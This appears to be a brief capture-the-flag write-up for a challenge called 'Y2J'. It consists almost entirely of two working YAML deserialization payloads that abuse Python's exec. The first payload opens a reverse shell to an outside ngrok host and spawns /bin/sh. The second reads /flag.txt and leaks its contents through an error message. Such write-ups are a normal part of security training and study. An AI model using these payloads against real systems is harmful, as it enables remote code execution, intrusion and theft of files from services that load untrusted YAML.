 # Y2J

Reverse shell like this:

```yaml
!!python/object/new:tuple
- !!python/object/new:map
  - !!python/name:exec
  - [ "import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('4.tcp.us-cal-1.ngrok.io',15632));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn('/bin/sh')" ]
```

Flag is in `/flag.txt` .. better yet:

```yaml
!!python/object/new:tuple
- !!python/object/new:map
  - !!python/name:exec
  - [ 'raise ValueError(getattr(open("/flag\x2etxt"), "read")())' ]
```